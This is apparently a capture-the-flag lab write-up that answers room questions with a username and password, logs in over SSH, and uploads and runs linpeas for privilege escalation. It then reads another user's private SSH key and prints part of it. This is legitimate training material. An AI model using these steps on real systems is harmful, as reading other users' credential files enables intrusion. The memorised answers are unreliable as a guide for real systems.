 #### Question 5
- **What is the username?**
```
jan
```

#### Question 6
- **What is the password?**
```
armando
```
### Login SSH
```
ssh jan@10.10.186.13
password: armando

jan@basic2:~$ find / -type f -name user.txt 2>/dev/null

Didn't find any flag
```

#### Question 7
- **What service do you use to access the server(answer in abbreviation in all caps)?**
```
SSH
```
# Privilege Escalation

### Copy `linpeas.sh` 
```
scp linpeas.sh jan@10.10.186.13:/dev/shm
password : armando

```
**`:/dev/shm`**: This specifies the destination path on the remote machine. `/dev/shm` is a directory in Linux systems that represents shared memory. It’s often used for storing temporary data. In this case, the script `linpeas.sh` will be transferred to this location on the remote system.

### Execute `linpeas.sh`.
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
jan@basic2:/dev/shm$ ./linpeas.sh 
```

```
jan@basic2:/dev/shm$ cat /home/kay/.ssh/id_rsa
```
![[Pasted image 20250318011227.png]]

- **Private Key**
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
```